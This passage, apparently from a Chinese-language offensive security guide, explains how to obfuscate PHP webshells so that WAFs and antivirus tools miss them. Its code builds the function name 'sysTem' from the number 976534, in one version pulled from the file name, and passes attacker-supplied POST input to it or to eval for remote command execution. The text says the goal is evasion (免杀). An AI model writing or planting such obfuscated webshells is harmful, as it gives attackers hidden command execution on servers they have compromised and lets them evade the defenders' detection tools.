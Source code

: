 加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 2# 字符串混淆处理绕过

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过 WAF 的检测逻辑，如下：

```bash
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

### 2.2 自定义函数 + 文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个 PHP 名字为 `976534.php`：

```bash
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）
//__FILE__为 976534.php
//substr(__FILE__, -10, 6) 即从文件名中提取出 976534
//confusion(intval(976534)) 即输出了 sysTem（高危函数），拼接即可
$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);
```

首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem` 高危函数了，可以配合其他姿势一起使用，达成免杀效果

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null 和空白字符等）

```bash
$f = 'hello';
$$f = $_POST['aabyss'];
eval(``.$hello);
```
